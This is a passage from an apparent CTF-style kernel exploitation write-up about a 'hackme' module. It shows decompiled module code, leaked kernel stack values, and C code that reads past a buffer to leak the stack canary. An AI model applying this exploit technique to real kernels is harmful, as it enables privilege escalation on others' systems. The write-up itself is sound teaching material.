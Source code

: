 ```c
  }
  else {
    size = 0xfffffffffffffff2;
  }
  if (tmp._120_8_ == *(long *)(in_GS_OFFSET + 0x28)) {
    return size;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

You can find the bug for yourself, it is kind of obvious. Just know that the `hackme_buf` is the actual buffer you use in userland when you call the `read` or `write` functions. 

So to get started we must first get a kernel cookie leak and to do so we will take advantage of the `hackme_read` function. All it is doing is reading too much data from the kernel space's `tmp` buffer to the point where there is a leak, and after looking through and running the program you can tell that the stack cookie is on index 16:

```
[+] Saved state
[*] Opened module
[*] Leak at index 0: 0xffffffff81a29330
[*] Leak at index 1: 0x12
[*] Leak at index 2: 0xb998bada295df400
[*] Leak at index 3: 0xffff888006890310
[*] Leak at index 4: 0xffffc900001bfe68
[*] Leak at index 5: 0x4
[*] Leak at index 6: 0xffff888006890300
[*] Leak at index 7: 0xffffc900001bfef0
[*] Leak at index 8: 0xffff888006890300
[*] Leak at index 9: 0xffffc900001bfe80
[*] Leak at index 10: 0xffffffff8184e047
[*] Leak at index 11: 0xffffffff8184e047
[*] Leak at index 12: 0xffff888006890300
[*] Leak at index 13: 0x0
[*] Leak at index 14: 0x7fff4045dd50
[*] Leak at index 15: 0xffffc900001bfea0
[*] Leak at index 16: 0xb998bada295df400 <=====
[*] Leak at index 17: 0xa0
[*] Leak at index 18: 0x0
[*] Leak at index 19: 0xffffc900001bfed8
[*] Canary value: 0xb998bada295df400
```

Also here is the code that made that:

```c
unsigned long leak_canary () {
	// unsigned longs are 8 bytes each, buf is 0x80 bytes large
	// so canary will be at index 16
	unsigned long leak[20];

	int sz = read(kernel_fd, leak, sizeof(leak));

	for (int i = 0; i < 20; i++) {
		printf("[*] Leak at index %d: 0x%lx\n", i, leak[i]);	
	}

	printf("[*] Canary value: 0x%lx\n", leak[16]);

	return leak[16];
}
```
